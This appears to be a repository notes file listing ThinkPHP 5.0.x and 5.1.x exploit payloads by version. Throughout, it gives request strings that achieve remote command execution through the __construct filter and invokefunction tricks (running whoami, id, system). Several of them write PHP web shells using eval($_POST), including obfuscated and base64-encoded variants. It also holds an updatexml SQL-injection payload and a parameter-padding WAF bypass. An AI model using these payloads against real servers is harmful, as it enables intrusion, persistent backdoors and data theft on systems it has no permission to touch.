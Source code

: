 # Tinkphp-


5.0.x

post：/?s=portal-index.php?s=captcha
_method=__construct&filter[]=phpinfo&method=GET&get[]=1
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=construct&filter[]=assert&filter[]=file_put_contents('0.php',_decode('JTNDJTI1ZXZhbCUyMHJlcXVlc3QlMjAlMjglMjJwYXNzJTIyJTI5JTI1JTNF'))&server=-1
_method=__construct&filter[]=system&get[]=ipconfig
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=phpinfo()
_method=__construct&filter[]=assert&method=get&server[REQUEST_METHOD]=phpinfo()

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=psrntjiseqs.php&vars[1][]=<?php eval($_POST[1])?>

/index?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

?s=index/think\config/get&name=database.username

5.0.9 
_method=__construct&filter[]=assert&method=get&get[]=phpinfo()

_method=__construct&filter[]=assert&method=get&get[]=file_put_contents('a.php','<?php eval($_POST[a])?>')

5.0.10
/index.php?s=index/index/index

post: s=ipconfig&_mehthod=__construct$method=&filter[]=system

5.0.11

/public/index.php?s=index/index/index
data:?s=whoami&_method=__construct&method&filter[]=system

5.0.15
public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1

5.0.23

POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls


bypass
/index.php?s=11&s=11s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=11&s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=file_put_contents('hyck.php','<?php eval($_POST[hyck])?>')

index.php?s=index/\think\Request/input&cacheFile=spread.php&content=<?php @eval($_POST[spread]);?>

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=./hyck.php&vars[1][]=Fuck_You_Admin<?php function sys(){return 'al($_';}@eval('ev'.sys().'POST[hyck]);');?>

5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
